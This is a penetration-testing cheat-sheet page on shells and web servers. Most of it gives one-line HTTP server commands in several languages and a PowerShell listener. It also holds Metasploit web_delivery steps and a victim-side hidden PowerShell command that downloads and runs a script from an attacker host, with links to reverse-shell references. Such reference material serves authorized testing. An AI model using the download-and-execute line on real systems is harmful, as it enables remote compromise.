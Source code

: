 ```yaml
---
title: Shells and Web Servers
category: Exploitation
order: 97
---
```


> **One-Line HTTP Servers**

Python 2 | python -m SimpleHTTPServer 8000
Python 3 | python -m http.server 8000
ruby | <code> ruby -rwebrick -e'WEBrick::HTTPServer.new(:Port => 8000, :DocumentRoot => Dir.pwd).start' </code>
ruby 1.9.2+ | ruby -run -ehttpd . -p8000
perl | <code> perl -MHTTP::Server::Brick -e '$s=HTTP::Server::Brick->new(port=>8000); $s->mount("/"=>{path=>"."}); $s->start' </code>
php | php -S 127.0.0.1:8000
IIS Express | "C:\Program Files (x86)\IIS Express\iisexpress.exe" /path:C:\MyWeb /port:8000"
OpenSSL | <code> openssl req -newkey rsa:2048 -nodes -x509 -subj '/CN=name-you-want.example.com' -days 3650 -out server.cert -keyout server.key <br> openssl s_server -accept 7781 -cert server.cert -key server.key -WWW </code>



> **Powershell HTTP Servers**

{% highlight powershell %}
$Hso = New-Object Net.HttpListener
$Hso.Prefixes.Add("http://+:8000/")
$Hso.Start()
While ($Hso.IsListening) {
    $HC = $Hso.GetContext()
    $HRes = $HC.Response
    $HRes.Headers.Add("Content-Type","text/plain")
    $Buf = [Text.Encoding]::UTF8.GetBytes((GC (Join-Path $Pwd ($HC.Request).RawUrl)))
    $HRes.ContentLength64 = $Buf.Length
    $HRes.OutputStream.Write($Buf,0,$Buf.Length)
    $HRes.Close()
}
$Hso.Stop()
{% endhighlight %}

> **Powershell Reverse Shells**

http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-3.html

> **Script Web Delivery** 

https://securitypadawan.blogspot.com/2014/02/php-meterpreter-web-delivery.html
On the attacker machine: 
{% highlight bash %}
msf > use exploit/multi/script/web_delivery
msf exploit(web_delivery) > show targets
            ...targets...
msf exploit(web_delivery) > set TARGET <target-id>
msf exploit(web_delivery) > show options
            ...show and set options...
msf exploit(web_delivery) > exploit
{% endhighlight %}

On the victim: 
{% highlight bash %}
powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://10.10.10.10:80/[randomstring]'))
{% endhighlight %}
    


> **Useful Resources** 
https://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html
* [Bash, PHP, Netcat, Telnet, Perl, Ruby, Java, Python, Gawk](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

